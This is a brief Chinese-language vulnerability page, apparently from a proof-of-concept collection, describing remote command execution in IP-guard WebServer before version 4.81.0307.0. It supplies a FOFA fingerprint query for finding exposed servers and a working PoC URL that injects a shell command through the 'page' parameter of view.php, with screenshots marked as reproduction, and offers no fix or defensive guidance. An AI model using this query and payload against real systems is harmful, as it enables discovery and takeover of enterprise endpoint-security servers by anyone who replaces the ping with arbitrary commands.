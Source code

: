 ## IP-guard WebServer 远程命令执行漏洞
IP-guard是由溢信科技股份有限公司开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理。

## 影响版本
```
< IP-guard WebServer 4.81.0307.0
```

## fofa
```
"IP-guard" && icon_hash="2030860561"
```

## poc
```
/ipg/static/appr/lib/flexpaper/php/view.php?doc=11.jpg&format=swf&isSplit=true&page=||ping%20dnslog
```

## 漏洞复现

![](./assets/20231109165256.png)
![](./assets/20231109165333.png)
